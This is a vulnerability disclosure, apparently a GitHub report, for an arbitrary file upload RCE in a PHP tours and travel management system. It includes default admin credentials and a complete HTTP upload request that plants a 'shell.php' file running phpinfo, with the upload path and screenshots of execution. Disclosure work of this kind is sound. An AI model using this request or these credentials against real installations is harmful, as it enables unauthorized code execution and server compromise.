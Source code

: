 # Online Tours & Travels Management System v1.0 by mayuri_k has arbitrary code execution (RCE)

BUG_Author: YorkLee

vendors: https://www.sourcecodester.com/php/14510/online-tours-travels-management-system-project-using-php-and-mysql.html

The program is built using the xmapp-php8.1 version

Login account: mayuri.infospace@gmail.com/admin (Super Admin account)

Vulnerability url: ip/tour/admin/operations/travellers.php

Loophole location: Online Tours & Travels management system's add_travellers.php file exists arbitrary file upload (RCE)

Request package for file upload：


```sql
POST /tour/admin/operations/travellers.php HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Referer: http://192.168.1.19/tour/admin/add_travellers.php
Cookie: PHPSESSID=g29omi7f91g3h7ud1uhq6rbmkv
Connection: close
Content-Type: multipart/form-data; boundary=---------------------------9453452924520
Content-Length: 1097

-----------------------------9453452924520
Content-Disposition: form-data; name="val-username"

hhhh
-----------------------------9453452924520
Content-Disposition: form-data; name="val-email"

11111111@qq.com
-----------------------------9453452924520
Content-Disposition: form-data; name="val-password"

$&@%bBHGu111
-----------------------------9453452924520
Content-Disposition: form-data; name="val-confirm-password"

$&@%bBHGu111
-----------------------------9453452924520
Content-Disposition: form-data; name="state_name"

Haryana
-----------------------------9453452924520
Content-Disposition: form-data; name="val-digits"

1888888888
-----------------------------9453452924520
Content-Disposition: form-data; name="val-suggestions"

11111
-----------------------------9453452924520
Content-Disposition: form-data; name="photo"; filename="shell.php"
Content-Type: application/octet-stream

JFJF
<?php phpinfo();?>
-----------------------------9453452924520
Content-Disposition: form-data; name="submit"


-----------------------------9453452924520--
```

The files will be uploaded to this directory \tour\admin\img

![image](https://user-images.githubusercontent.com/54017627/183002424-46b976d9-a239-494e-8761-7acdff191da8.png)

We visited the directory of the file in the browser and found that the code had been executed

![image](https://user-images.githubusercontent.com/54017627/183002594-2b9d5bd3-94a6-49e2-ab74-1be5682dcf56.png)


